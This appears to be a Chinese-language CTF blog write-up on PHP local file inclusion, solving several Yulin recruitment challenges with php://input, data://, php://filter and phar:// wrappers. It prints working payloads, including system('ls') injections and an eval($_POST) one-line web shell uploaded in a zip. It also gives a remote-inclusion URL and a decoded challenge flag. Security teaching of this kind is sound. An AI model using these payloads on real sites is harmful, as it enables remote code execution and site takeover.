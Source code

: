 ```yaml
---
title: Local file include
tags:
  - CTF
  - 本地文件包含
catagories: CTF
mathjax: true
abbrlink: 25287
date: 2023-10-31 19:42:00
update: 2023-10-31 19:42:00
---
```

本地文件包含经常配合文件上传使用。即上传图片马->文件包含执行
# PHP伪协议
<center>

|协议|allow_url_fopen|allow_url_include|PHP版本|用法  
|:---:|:---:|:---:|:---:|:---:|  
|php://input|不受限|On||?file=php://input [POST DATA] <?php [代码] ?>|  
|php://filter|不受限|不受限||?file=php://filter/read=convert.base64-encode/resource=xxx.php|  
|zip://、zlib://、bzip://|不受限|不受限|>=php5.3.0|?file=zip://[压缩包绝对路径]%23[压缩包内文件]  
|phar://|不受限|不受限|>=php5.3.0|?file=phar://[压缩包路径]/[压缩包内文件]  
|data://|On|On||?file=data://, ?file=data://text/plain, ?file=data://text/plain;base64,[编码后的php代码]

</center>

``allow_url_fopen``为``On``时，能读取远程文件，例如``file_get_contents()``就能读远程文件  
``allow_url_include``为``On``时，就能使用``include``和``require``等方式包含远程文件  
需要注意的是，zip://伪协议需要安装zlib扩展  
## php://input
### Yulin招新LFI第二题  
打开题目页面，只有一个phpinfo链接  
![题目](1.png "题目")  
查看*phpinfo*，发现``allow_url_fopen``和``allow_url_include``都为$On$
![phpinfo](2.png "phpinfo")  
任意包含一个文件，出现提示 *flag在当前目录的某个文件中*  
因此考虑使用``php://input``伪协议执行代码
![post](3.png "post")  
构造代码``<?php system("ls"); ?>``进行post，得到文件列表，flag显然在flag_195780473.txt中，``cat flag_195780473.txt``得到flag  
![flag](4.png "flag")
### Yulin招新LFI第五题
打开题目页面，展示了源代码  
![题目](9.png "题目")  
发现代码逻辑为读取``file``参数传入的文件内容，将其与``I want flag``进行比较，相等则给出flag  
刚开始思路为远程文件包含。在远程服务器建立html文件，内容为``I want flag``，**使用file_put_contents函数**构造payload``?file=http://[remote addr]/payload.html``直接get远程文件即可  
![flag](16.png "flag")  
该题还可以使用``php://input``伪协议绕过``file_get_contents``函数  
在burpsuite构建post数据  
![post](10.png "post")  
成功get flag
![flag](11.png "flag")  
参考：[CTF bugku web file_get_contents WriteUp](https://zhuanlan.zhihu.com/p/401511726)
## data://
### Yulin招新LFI第三题  
题目页面同上第二题，只有一个phpinfo链接，查看*phpinfo*，发现``allow_url_fopen``和``allow_url_include``都为$On$  
![phpinfo](2.png "phpinfo")  
重复上题操作，发现题目过滤了``php://input``伪协议  
![hack](5.png "hack")  
因此考虑使用``data://``伪协议，尝试构造payload``?file=data://text/plain,%20<?php%20system("ls");%20?>``，发现执行成功  
![ls](6.png "ls")  
直接``cat flag_8491675293.txt``得到flag  
![flag](7.png "flag")  
## php://fliter
以Yulin招新LFI第四题为例  
题目页面提示flag就在flag.php内
![tips](8.png "tips")  
但没有显示，因此考虑使用``php://fliter``伪协议直接读取flag.php内容  
![](6.png "ls")  
得到flag.php内容的base64编码
```base64
ZmxhZ+WwseWcqOi/me+8jOWPr+aYr+iXj+WcqOWTqumHjO+8nyjila/CsNCUwrAp4pWvIOKUu+KUgeKUuw0KPD9waHANCiRmbGFnID0gJ1l1bGluU2Vje04wd195MHVfc2VlX21lITc1MTRXUXp4d30nOw0KPz4NCg==
```
解码得到flag
```php
flag就在这，可是藏在哪里？(╯°Д°)╯ ┻━┻
<?php
$flag = 'YulinSec{N0w_y0u_see_me!7514WQzxw}';
?>
```
## phar://
### Yulin招新LFI第六题   
打开题目，观察链接，推测文件包含时在输入的``file``值后添加了``.php``，因此无法直接构造图片马上传  
![题目](12.png "题目")  
因此考虑使用压缩包上传木马，构造木马
```php
<?php @eval($_POST['6']);
```
将其压缩为zip上传  
![upload](13.png "upload")  
打开蚁剑，用``phar://``伪协议直接连接  
![connect](14.png "connect")  
成功get flag  
![flag](15.png "flag")  